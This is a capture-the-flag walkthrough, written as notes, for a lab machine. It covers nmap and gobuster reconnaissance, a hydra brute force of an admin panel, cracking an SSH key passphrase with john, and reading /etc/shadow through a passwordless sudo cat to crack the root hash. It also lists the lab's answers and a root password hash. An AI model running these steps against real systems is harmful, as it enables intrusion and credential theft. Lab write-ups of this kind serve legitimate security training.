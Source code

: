 ## Step 1: Reconnaissance

- do an nmap scan with service/version detection
- `nmap -sV 10.10.65.214`
![[Pasted image 20250714151216.png]]

Now we can answer the following questions:
- **How many ports are open? - 2**
- **What version of SSH is running? - OpenSSH 7.6p1**
- **What version of Apache is running? - 2.4.29**
- **Which Linux distribution is running?  - Ubuntu**

Search for hidden directories with gobuster.
- `gobuster dir -u 10.10.65.214 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- the medium wordlist was a bit of an overkill for this task
![[Pasted image 20250714152537.png]]
- **What is the hidden directory? - /admin**

## Step 2: Getting a shell

- by just assuming that the login name will be admin, bruteforce the password with hydra
- `sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.65.214 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -V`

![[Pasted image 20250714153958.png]]

- **What is the user:password of the admin panel? - admin:xavier**
- login on the webpage to get the web flag
- on the webpage we can also download a key. Safe it to a file and convert it to a format that john can use with `ssh2john key > hash.txt`
- then crack the hash with john `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
`
![[Pasted image 20250714161614.png]]

- **What is John's RSA Private Key passphrase? - rockinroll**
- now use the key to login via ssh, use john as login name, because the website said that it is john's key we downloaded
- first make sure that the key has the correct permissions `chmod 600 /path/to/key`
- specify private key to use with `-i`
- `ssh -i key john@10.10.65.214
- the flag is in the user.txt file

## Step 3: Privilege escalation

- see which programs john can run with root permissions with `sudo -l`
![[Pasted image 20250714163126.png]]

- cat can be run with root privileges without a password
- use cat to read the shadow file that contains the password hashes
- the root password hash is at the top between the first two : `$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.`
![[Pasted image 20250714163210.png]]

- save the password hash to a file and crack it with john

![[Pasted image 20250714163603.png]]

- **What is the root's password? - football**
- now use `su` to switch to root `su root`
- the flag is in the root folder in the root.txt file